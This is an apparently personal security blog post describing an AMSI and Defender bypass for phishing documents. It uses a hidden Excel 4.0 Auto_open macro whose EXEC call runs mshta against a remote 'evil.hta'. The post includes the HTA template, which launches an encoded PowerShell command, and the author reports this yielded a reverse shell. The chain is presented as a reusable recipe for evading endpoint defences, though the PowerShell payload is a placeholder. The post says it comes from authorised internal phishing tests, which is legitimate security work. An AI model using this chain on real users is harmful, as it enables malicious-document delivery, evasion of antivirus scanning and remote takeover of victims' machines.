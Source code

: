 ```yaml
---
layout: ../../layouts/PostLayout.astro
title: "Phishing AMSI Bypass"
date: 2020-02-25T13:07:25-05:00
draft: false
toc: false
images:
tags:
  - ASMI 
---
```


## How to bypass AMSI (The Simplest Way)

I was looking to run my own phishing campaigns on my current organization and was testing office document payloads.
I tried the old fashioned VBA in the macro running the shell function as well as some others, and defender caught most if not all of them.
Using this tool [Macro-Pack](https://github.com/sevagas/macro_pack) works sometimes but often, it would get flagged or the powershell command would not properly run.
I noticed that most of the issues i was running into was this AMSI popup ![asmi popup](/popup.png)

So i began researching AMSI as i never heard of it. The following resources break down AMSI and bypass options.

* [Outflank](https://outflank.nl/blog/2019/04/17/bypassing-amsi-for-vba/)
* [byte storm](https://medium.com/@byte_St0rm/adventures-in-the-wonderful-world-of-amsi-25d235eb749c)
* [security soup](https://security-soup.net/flawedammyy-rat-excel-4-0-macros/)
* [OutFlank2](https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/)

The first two explain what AMSI is and the last two go into the easier ways to bypass it. Security-Soup broke down how some actors bypassed it using excel 4.0 macros.
Aka really old macros that still work. I used the following link to get more familiar with these macros.[Excel Off The Grid](https://exceloffthegrid.com/using-excel-4-macro-functions/).
I pretty much right clicked my sheet. And clicked Excel 4.0 macro. This creates a new sheet called macro1. If you rename the first cell Auto_open it will run the sheet cell by cell. Dont forget to hide the sheet after this lol. You can run pretty much anything with the following function.
```
=EXEC("cmd.exe")
```
The issue i was running into at this point was not AMSI it was defender flagging certain lolbins like certil for example.
So i decide to look for lolbins that could potentially bypass defender since AMSI was taken care of. I came across a post here on [IronHackers](https://ironhackers.es/en/cheatsheet/comandos-en-windows-para-obtener-shell/)
That pretty much goes through alot of lolbins but what i noticed was they mentioned that. Mshta.exe doesnt get flagged.



So i found an HTA payload which contained some jscript and tried injecting that into my exec function. The macro1 sheet now looks like this

```
=EXEC("mshta.exe http://someip/evil.hta")
```
The HTA file looks like this 
```
<html>
<head>
<HTA:APPLICATION id="hwHTA"
applicationName="hyperHTA"
border="thin"
borderStyle="normal"
caption="yes"
icon="http://www.hyperwrite.com/features/favicon.ico"
maximizeButton="yes"
minimizeButton="yes"
showInTaskbar="no"
windowState="normal"
innerBorder="yes"
navigable="yes"
scroll="auto"
scrollFlat="yes"
singleInstance="yes" 
sysMenu="yes"
contextMenu="yes"
selection="yes" 
version="1.0" />

<script>
a=new ActiveXObject("WScript.Shell");
a.run("powershell -encodedCommand safdjngnrwgnwfn Blah blah blah",0,false);window.close();
</script>

<title>Simple HTML Page</title>

</head>

<body>

<h1>Dummy Page</h1>
<hr>
<p>This is a simple, common or garden variety, normal HTML page. Oh, but saved
with a .HTA extension, and with an &lt;HTA&gt; application block included at the
top of the HTML code. </p>
<p>And to make it interesting, here is a link to the <a href="http://www.aodc.com.au/" target="_top">AODC
Web site</a>.</p>
<p>And why not retrieve the version number out of the HTA:Application properties
using <a href="#" onClick="JavaScript:alert('Version of this HTA is ' + hwHTA.version)">JavaScript</a>.</p>
<p>&nbsp;</p>

</body>

</html>
```

Im not very savy to Jscript or VB so i found this online entered my own powershell encoded command into it.
And to my surprise it did not trigger defender and my reverse shell came in soon after. So with just using an old school method found with soome googling and leveraging mshta.exe you too can bypass defender as well as AMSI to get code execution.


## How to bypass AMSI (The Harder Way)
### but its more flexible and in depth
===> [Hoang Bui's Blog](https://medium.com/@fsx30/excel-4-0-macro-old-but-new-967071106be9)

## Coming soon
### MacOS phishing tactics
